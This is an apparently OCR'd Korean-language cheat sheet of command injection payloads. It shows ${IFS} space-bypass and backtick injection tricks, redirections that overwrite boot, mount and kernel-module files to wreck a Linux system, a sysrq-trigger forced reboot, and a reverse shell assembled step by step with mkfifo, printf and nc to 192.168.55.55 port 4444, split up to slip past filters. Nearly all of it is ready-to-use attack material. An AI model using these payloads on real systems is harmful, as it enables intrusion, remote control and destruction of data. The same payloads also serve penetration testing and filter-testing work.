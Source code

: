 # COMMAND INJECTION
공백 우회  
|/usr/bin/touch${IFS}/opt/test_injection  

---------------------------------------------------
and, or ,; 우회  

`id>/opt/test_injection`  

--------------------------------------
라다이렉션만을 이용하여 시스템 파괴  

id>/lib/modules/*/kernel/drivers/usb/storage  
id>/etc/fstab  
id>/etc/mtab  
id>/etc/inittab  
id>/boot/grub/grub.cfg  
id>/boot/initrd.img-$(uname -r)  
id>/etc/systemd/  
echo 'b'>/proc/sysrq-trigger  
<<<b>/proc/sysrq-trigger  
root일 경우만 덮어씌울수있음.  

--------------------------------------------  
;sleep 5 # 해당 명령어가 먹힐 경우 리버스tcp 가능  
;mkfifo${IFS}/opt/f;  
;printf${IFS}'nc\x20192.168.55.55\x204444'>/opt/b;  
;printf${IFS}'\x20</opt/f\x7Cbin/sh>/opt/f'>/opt/c;  
;cat${IFS}/opt/b${IFS}/opt/c>/opt/t;  
;chmod${IFS}777${IFS}/opt/t;  
;./opt/t;  


